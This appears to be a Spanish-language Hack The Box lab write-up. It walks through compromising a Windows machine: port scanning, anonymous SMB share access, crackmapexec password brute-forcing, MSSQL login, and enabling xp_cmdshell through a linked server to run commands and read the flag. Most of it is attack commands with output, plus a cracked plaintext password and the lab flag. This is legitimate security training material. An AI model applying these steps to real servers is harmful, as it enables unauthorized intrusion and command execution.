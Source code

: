 # Práctica Final: Difícil 🐧

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

![Ports.PNG](./assets/Dificil/01-Ports.PNG)

* ❕ `ttl 127` -> Windows

---

1. Listamos los recursos compartidos en el **servicio SMB**
* `smbclient -L \\\\[IP] -N`

**Output**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Home            Disk      
IPC$            IPC       Remote IPC
```

---

2. Accedemos al **recurso** `Home`
* `smbclient \\\\[IP]\\Home -N`

* Al listar el contenido de este directorios nos encontramos con `3 Usuarios`

    ![Ports.PNG](./assets/Dificil/02-SMB.PNG)

* Descargamos el contenido de todos los usuarios (Les ponemos nombres descriptivos o los almacenamos en directorios)

* Usamos `crackmapexec` para hacer **fuerza bruta** a `fiona` en el servicio **SMB**
    * `crackmapexec smb [IP] -u "fiona" -p fiona_creds.txt`

    **Output**
    ```
    SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl
    ```

---

3. Nos autenticamos en el **servicio mssql** con el usuario `fiona`
* `impacket-mssqlclient fiona@10.129.203.10 -windows-auth`

---

4. Al explorar múltiples formas de ejecuta comandos, no podemos hacerlo, por lo cual haremos esto:

* Impersonamos al usuario `john`
    * `EXECUTE AS LOGIN = 'john'`
    * `SELECT IS_SRVROLEMEMBER('sysadmin');`
      * Output: **0** -> No podemos ejecutar comandos.

    * `sp_configure 'show advanced options', 1`
      * Output: `[-] ERROR(WIN-HARD\SQLEXPRESS): Line 105: User does not have permission to perform this action.`
        * No podemos cambiar los permisos para ejecutar comandos. :(
        * 

---

5. Listamos `servidores enlazados` 
    * `SELECT srvname, isremote FROM sysservers;`

    **Output**
    ```
    srvname                   isremote   

    -------------------       --------   

    WINSRV02\SQLEXPRESS         1   
    LOCAL.TEST.LINKED.SRV       0   
    ```
    + `1` Significa que el **servidor es local**
    + `0` Significa que el **servidor es enlazado**

---

6. Ahora trataremos de cambiar nuestros permisos para ejecutar comandos **impersonando** al usuario `john`
* `EXECUTE('sp_configure "show advanced option", 1') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('RECONFIGURE') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('sp_configure "xp_cmdshell", 1') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('RECONFIGURE') AT "LOCAL.TEST.LINKED.SRV";`

Ahora podemos ejecutar comandos:

* `EXECUTE('xp_cmdshell "[COMANDO]"') AT "LOCAL.TEST.LINKED.SRV";`

7. Mostramos la **flag** 🏴
* `EXECUTE('xp_cmdshell "type \Users\Administrator\Desktop\flag.txt"') AT "LOCAL.TEST.LINKED.SRV";`


**Output**
`HTB{46u$!n9_l!nk3d_$3rv3r$}`